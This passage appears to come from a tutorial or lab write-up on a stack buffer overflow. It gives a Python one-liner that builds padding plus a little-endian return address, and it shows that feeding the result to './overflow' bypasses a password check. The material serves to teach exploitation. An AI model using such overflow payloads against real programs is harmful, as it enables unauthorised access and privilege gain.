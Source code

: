 For convenience, we can use following command in terminal to generate 32 characters into a file named _attack.txt_.
```
python -c 'print "C"*28 + "\xea\x84\x04\x08"' > attack.txt
```

Note that we input the bytes of **0x080484ea** inversely, because our platform is based on little endian intel processor.

With everything ready, we now can enter `./overflow < attack.txt` and gain privilege without knowing the real password.

![hacking done](./figs/hackingDone.png)
